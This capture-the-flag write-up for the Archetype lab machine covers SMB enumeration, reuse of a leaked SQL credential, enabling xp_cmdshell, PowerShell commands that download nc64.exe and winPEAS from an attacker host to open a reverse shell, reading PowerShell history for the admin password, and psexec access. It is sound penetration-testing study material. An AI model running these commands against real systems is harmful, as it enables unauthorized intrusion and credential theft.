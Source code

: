 # Archetype

## Initial Enumeration

Did `nmap` as usual to get the open ports — could see so many open ports like MS RPC, MSSQL, and SMB client, etc.

```bash
nmap -sC -sV -p- -Pn {target_ip}
```

## SMB Enumeration

Now will try accessing the `smbclient`:

```bash
smbclient -N -L {target_ip}
```

- `-N` means no password  
- `-L` to list the shares

We can see that only `backup` and `IPC$` shares seem to be allowed public access, and we get a `.dtsconfig` file while opening the `backup` share.

## Understanding the `.dtsconfig` File

It seems `.dtsconfig` files are used to hardcode connection strings and passwords for the SQL Server so a **SSIS package** (SQL Server Integration Services) will use it to run ETLs.

Since this was stored insecurely, we can use the password and username given in the `.dtsconfig` and connect through Impacket to the SQL server.

```
password=[REDACTED];User ID=ARCHETYPE\sql_svc
```

## SQL Server Exploitation

We can connect using:

```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{target_ip} -windows-auth
```

- `mssqlclient.py` is from the Impacket repo
- `-windows-auth` specifies to use Windows authentication

Now a SQL command line will show up. Use the following to check if our role is "sysadmin":

```sql
SELECT is_srvrolemember('sysadmin');
```

It returned `1` — so we have sysadmin access 🙌

Now we can use something called `xp_cmdshell` to run commands on the OS.

### Enable `xp_cmdshell`

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

To verify:

```sql
EXEC xp_cmdshell 'net user';
```

## Reverse Shell

We’ll use this to download `nc64.exe` from our local machine:

```sql
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.9/nc64.exe -outfile nc64.exe"
```

Host `nc64.exe` on a Python HTTP server on attacker machine:

```bash
python3 -m http.server
```

Now connect to our listener:

```bash
nc -lvp {port}
```

## Privilege Escalation

To escalate, we’ll use **winPEAS**, download and execute it on the victim:

```sql
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.190/winPEASx64.exe -outfile winPEASx64.exe"
```

Run it in PowerShell. It gives a massive output — looks like it's an enumeration tool to identify privilege escalation paths.

### Check PowerShell History

As per walkthrough, since this is both a normal user account and a service account, check for frequently accessed files or executed commands.

We read the PowerShell history:

```
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

There we get the **admin password** 👀

## Getting Root

Now use:

```bash
python3 psexec.py administrator@10.129.95.187
```

We get the root flag 🎉

---

## Tools Used

- `winPEAS` — for local enumeration for privilege escalation.
- `psexec.py` — lets you authenticate with high privileges and get shell access (SMB-based).

